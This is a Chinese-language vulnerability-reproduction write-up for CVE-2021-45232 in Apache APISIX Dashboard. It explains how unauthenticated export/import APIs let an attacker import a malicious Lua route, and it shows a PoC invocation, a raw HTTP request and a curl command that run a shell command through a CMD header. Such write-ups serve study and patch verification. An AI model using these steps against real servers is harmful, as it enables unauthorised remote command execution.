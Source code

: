 # Apache APISIX Dashboard API权限绕过导致RCE CVE-2021-45232

## 漏洞复现
利用/apisix/admin/migrate/export和/apisix/admin/migrate/import两个Apache APISIX Dashboard提供的未授权API，我们可以简单地导入一个恶意配置文件，其中包含我们构造的LUA脚本：
注意的是，这个配置文件的最后4个字符是当前文件的CRC校验码，所以最好通过自动化工具来生成和发送这个利用数据包，比如这个[POC](https://github.com/wuppp/cve-2021-45232-exp/blob/main/apisix_dashboard_rce.py)。

`python apisix_dashboard_rce.py http://your-ip:port`执行操作

添加完恶意路由后，你需要访问Apache APISIX中对应的路径来触发前面添加的脚本。值得注意的是，Apache APISIX和Apache APISIX Dashboard是两个不同的服务，Apache APISIX Dashboard只是一个管理页面，而添加的路由是位于Apache APISIX中，所以需要找到Apache APISIX监听的端口或域名。

在当前环境下，Apache APISIX监听在9080端口下。我们发送数据包：
```
GET /LQsRF0 HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0
```
也可以通过之前的POC实现命令执行：

`curl http://your-ip:9080/LQsRF0 -H "cmd: id"`
可见，我们在Header中添加的CMD头中的命令已被执行。

这个漏洞是Apache APISIX Dashboard的漏洞，而Apache APISIX无需配置IP白名单或管理API，只要二者连通同一个etcd即可。